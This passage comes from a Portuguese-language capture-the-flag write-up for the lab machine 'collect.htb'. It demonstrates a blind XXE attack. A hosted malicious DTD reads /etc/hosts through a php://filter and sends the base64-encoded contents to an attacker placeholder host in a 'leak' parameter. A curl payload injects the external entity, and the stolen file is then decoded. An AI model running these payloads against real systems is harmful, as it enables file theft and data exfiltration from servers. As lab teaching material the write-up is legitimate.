 **File xpl.dtd**:

```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/hosts">
<!ENTITY % payload "<!ENTITY &#37; run SYSTEM 'http://<your-ip>/?leak=%file;'>">
%payload;
%run;
```

Hospede o "**xpl.dtd**" em um servidor python, e envie a payload novamente.

**Payload:**

```
curl -X POST http://collect.htb/api -d 'manage_api=<!DOCTYPE root [<!ENTITY % xpl SYSTEM "http://192.168.1.4/xpl.dtd">%xpl;]><root><method>POST</method><uri>/auth/register</uri><user><username>test</username><password>test</password></user></root>' -b "PHPSESSID=bm935pn4sdq6k9f6ccmrf6ve8u"
```

**Resposta no servidor python:**&#x20;

<figure><img src="./assets/28.png" alt=""><figcaption></figcaption></figure>

Decodificando o base64 contido no parâmetro "**leak**", conseguimos ler o conteúdo do arquivo "**/etc/hosts**":

```
echo 'MTI3LjAuMC4xCWxvY2FsaG9zdAoxMjcuMC4xLjEJZGViaWFuCWNvbGxlY3QuaHRiCWRldmVsb3BlcnMtbG9jYWxob3N0LmNvbGxlY3QuaHRiCWZvcnVtLmNvbGxlY3QuaHRiCgojIFRoZSBmb2xsb3dpbmcgbGluZXMgYXJlIGRlc2lyYWJsZSBmb3IgSVB2NiBjYXBhYmxlIGhvc3RzCjo6MSAgICAgbG9jYWxob3N0IGlwNi1sb2NhbGhvc3QgaXA2LWxvb3BiYWNrCmZmMDI6OjEgaXA2LWFsbG5vZGVzCmZmMDI6OjIgaXA2LWFsbHJvdXRlcnMK' | base64 -d
```

<figure><img src="./assets/29.png" alt=""><figcaption></figcaption></figure>